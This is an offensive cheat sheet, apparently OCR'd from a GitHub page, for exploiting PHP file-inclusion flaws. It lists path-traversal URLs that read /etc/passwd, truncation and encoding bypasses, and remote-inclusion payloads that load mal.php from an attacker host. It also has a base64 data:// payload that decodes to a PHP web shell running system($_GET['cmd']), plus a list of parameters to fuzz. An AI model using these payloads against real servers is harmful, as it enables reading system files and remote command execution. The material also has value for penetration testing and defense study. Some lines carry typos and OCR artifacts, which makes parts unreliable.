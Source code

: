 #### **Path Truncation Technique**

* /`etc/passwd`, `/etc//passwd`, `/etc/./passwd`, and `/etc/passwd/` are all treated as the same path.
* When the last 6 characters are `passwd`, appending a `/` (making it `passwd/`) doesn't change the targeted file.
* Similarly, if `.php` is appended to a file path (like `shellcode.php`), adding a `/.` at the end will not alter the file being accessed.

```php
<http://example.com/index.php?page=a/../../../../../../../../../etc/passwd>......[ADD MORE]....
<http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD> MORE]/././.
<http://example.com/index.php?page=....//....//etc/passwd>
<http://example.com/index.php?page=..///////..////..//////etc/passwd>
<http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd>
Maintain the initial path: <http://example.com/index.php?page=/var/www/../../etc/passwd>
<http://example.com/index.php?page=PhP://filter>
```

**Remote File Inclusion**

usnig HTTP:// or HTTPS:// Filter

```php
<http://example.com/index.php?page=http://atacker.com/mal.php>
<http://example.com/index.php?page=\\\\attacker.com\\shared\\mal.php>
```

or

Using PHP://

```php
PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.txt

<?php system($_GET['cmd']);echo 'Shell done !'; ?>
```

### **Top 25 parameters**

```php
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```